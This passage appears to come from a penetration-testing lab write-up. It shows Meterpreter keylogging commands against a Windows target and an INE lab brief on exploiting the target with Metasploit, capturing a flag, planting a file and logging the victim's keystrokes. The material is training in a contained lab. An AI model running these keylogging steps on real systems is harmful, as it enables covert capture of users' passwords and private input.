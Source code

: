 ```
meterpreter > keyscan_dump
```

And in this case, it doesn't capture that.

What we can do is stop the key scan sniffer. And then start it again.

```
meterpreter > keyscan_stop
meterpreter > keyscan_start
```

You may experience this issue.

Type in `ipconfig` on the target.

```
PS C:\Users\Administrator> ipconfig
```

```
meterpreter > keyscan_dump
```

You may need to start and stop it depending on the application that's currently being used on the target system.

That is the process of performing keylogging on a Windows system. This can be very helpful in capturing important data that the user on the target system may be entering.

# Windows: File and Keylogging
## Overview
Metasploit is one of the most popular pentesting tools. With features such as migrating into other processes, keylogging, etc it makes windows exploitation particularly easy. 

In this lab exercise, you are provided with GUI access to the attacker machine and the windows target machine. This allows you to experience the perspective of both the attacker and the victim at the same time. 

Your task is to exploit the application using an appropriate Metasploit module and complete the below-mentioned objectives. 

Objective: 

* Retrieve the flag.
* Create a file on the desktop which contains the text "You have been Hacked"
* From the Metasploit session, open the file in notepad on the target machine.
* Use the keylogger to log the commands typed on the victim machine.

Instructions:

* Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
* The IP address of the target machine is mentioned in the file “/root/Desktop/target”
* Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1

## Solutions
The solution for this lab can be found in the following manual: https://assets.ine.com/labs/ad-manuals/walkthrough-1955.pdf
